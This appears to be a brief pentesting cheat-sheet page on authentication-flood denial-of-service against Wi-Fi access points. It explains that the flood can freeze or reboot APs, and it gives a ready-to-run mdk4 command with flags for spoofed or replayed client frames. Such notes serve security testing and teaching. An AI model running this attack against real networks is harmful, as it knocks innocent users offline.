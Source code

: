 # Authentication Denial-Of-Service

## Intro

Sends authentication frames to all APs found in range. Every AP has a finite number of connection requests it can handle. After reaching this number the system might:

* **Freeze**&#x20;
* **Stop accepting new connections**
* **Reboot to clean its physical memory**

```
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```
